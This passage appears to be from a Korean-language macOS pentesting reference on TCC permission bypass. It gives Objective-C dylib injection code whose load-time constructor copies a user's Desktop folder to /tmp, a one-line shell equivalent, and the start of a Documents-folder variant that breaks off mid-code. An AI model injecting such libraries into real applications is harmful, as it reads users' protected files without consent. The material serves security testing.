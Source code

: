 {% tabs %}
{% tab title="ObjetiveC" %}
`$HOME/Desktop`를 `/tmp/desktop`으로 복사합니다.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Desktop"];
NSString *tmpPhotosPath = @"/tmp/desktop";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
`$HOME/Desktop`를 `/tmp/desktop`으로 복사합니다.
```bash
cp -r "$HOME/Desktop" "/tmp/desktop"
```
{% endtab %}
{% endtabs %}

### 문서

* **권한**: 없음
* **TCC**: `kTCCServiceSystemPolicyDocumentsFolder`

{% tabs %}
{% tab title="ObjetiveC" %}
`$HOME/Documents`를 `/tmp/documents`로 복사합니다.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

```